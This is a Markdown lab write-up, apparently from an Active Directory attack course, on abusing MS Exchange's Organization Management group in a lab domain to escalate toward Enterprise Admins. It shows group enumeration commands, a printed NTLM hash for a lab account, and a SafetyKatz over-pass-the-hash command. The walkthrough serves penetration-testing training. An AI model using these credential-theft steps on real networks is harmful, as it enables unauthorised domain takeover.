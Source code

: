 # Hands-on 17: Cross Trust Attacks - MS Exchange

- [Hands-on 17: Cross Trust Attacks - MS Exchange](#hands-on-17-cross-trust-attacks---ms-exchange)
  - [Tasks](#tasks)
  - [Enumerate the membership of Organization Management group in techcorp.local](#enumerate-the-membership-of-organization-management-group-in-techcorplocal)
  - [Abuse the permissions with the group to escalate privileges to Enterprise Admins in techcorp.local](#abuse-the-permissions-with-the-group-to-escalate-privileges-to-enterprise-admins-in-techcorplocal)

---

## Tasks

- Enumerate the membership of Organization Management group in `techcorp.local`.  
- Abuse the permissions with the group to escalate privileges to Enterprise Admins in `techcorp.local`.

<br/>

---

## Enumerate the membership of Organization Management group in techcorp.local

Use AD Module to enumerate:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
Get-ADGroupMember -Identity "Organization Management" -Server techcorp.local
```

![picture 2](images/626968a25b4329a5e268292e1e9a4d1c959df6c9582e22b94f2419bd1f00a039.png)  

There are 3 members in **Organization Management Group**
- us\exchangemanager
- us\exchangeadmin
- techcorp\administrator

<br/>

## Abuse the permissions with the group to escalate privileges to Enterprise Admins in techcorp.local

In [Hands-on 14](l14-GoldenTicket.md), we dumped the hashes in `us.techcorp.local`. The hash of `us\exchangeadmin`:

```
RID  : 00000464 (1124)
User : exchangeadmin
LM   :
NTLM : 65c1a880fcf8832d55fdc1d8af76f117
```

<br/>

First perform an over-pass-the-hash as local admin:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:exchangeadmin /ntlm:65c1a880fcf8832d55fdc1d8af76f117 /run:powershell.exe" "exit"
```

![picture 3](images/2a526afaa010d2596be92a4116fbd914045bbea90cdd6d87116b8c5bdec0b276.png)  

<br/>


